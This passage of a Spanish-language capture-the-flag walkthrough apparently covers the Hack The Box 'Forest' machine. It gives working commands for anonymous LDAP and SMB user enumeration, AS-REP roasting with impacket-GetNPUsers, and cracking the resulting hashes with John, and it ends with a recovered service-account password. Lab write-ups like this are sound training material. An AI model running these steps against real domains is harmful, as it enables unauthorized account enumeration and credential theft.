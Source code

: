 
## 2) LDAP: BaseDN y dominio

```bash
BASEDN=$(ldapsearch -x -H ldap://$TARGET -s base -LLL defaultNamingContext | sed -n 's/^defaultNamingContext: //p')
DOMAIN=$(echo "$BASEDN" | sed 's/DC=//g;s/,/./g')
echo "BaseDN: $BASEDN"   # p.ej. DC=htb,DC=local
echo "Domain: $DOMAIN"   # p.ej. htb.local
```

**Qué hace:** interroga LDAP anónimo (`-x`) para obtener `defaultNamingContext` (el DN raíz del dominio) y lo convierte a FQDN.

---

## 3) Enumerar usuarios por SMB (anónimo)

### 3.1 Listado con `rpcclient`
```bash
rpcclient -U "" -N $TARGET -c enumdomusers
```
- `-U "" -N` → anónimo sin contraseña.
- Muestra cuentas del dominio (incluye cuentas de servicio/Exchange).

### 3.2 Depurar usuarios “reales”
```bash
rpcclient -U "" -N "$TARGET" -c enumdomusers \
  | awk -F'[][]' '/user:/{print $2}' \
  | awk '!/\$$/ && $0 !~ /^SM_/ && $0 !~ /^HealthMailbox/' \
  | sort -u > ldap/users.txt

cat ldap/users.txt
```
- Quita cuentas con `$` (máquinas), `SM_…` y `HealthMailbox…` (Exchange).

---

## 4) AS‑REP Roasting (GetNPUsers) y crack

### 4.1 Obtener hashes AS‑REP
```bash
impacket-GetNPUsers htb.local/ -dc-ip $TARGET -no-pass -usersfile ldap/users.txt -format john -outputfile creds/asrep.hashes
```
- Pide TGT sin preautenticación a cuentas con flag **DONT_REQ_PREAUTH**.
- `-format john` deja listo para John.

### 4.2 Crack con John
```bash
john creds/asrep.hashes --wordlist=/usr/share/wordlists/rockyou.txt
john --show creds/asrep.hashes
# => típico en Forest: svc-alfresco : s3rvice
```
> Si `rockyou.txt` no existe, instala `wordlists` o ajusta la ruta.

---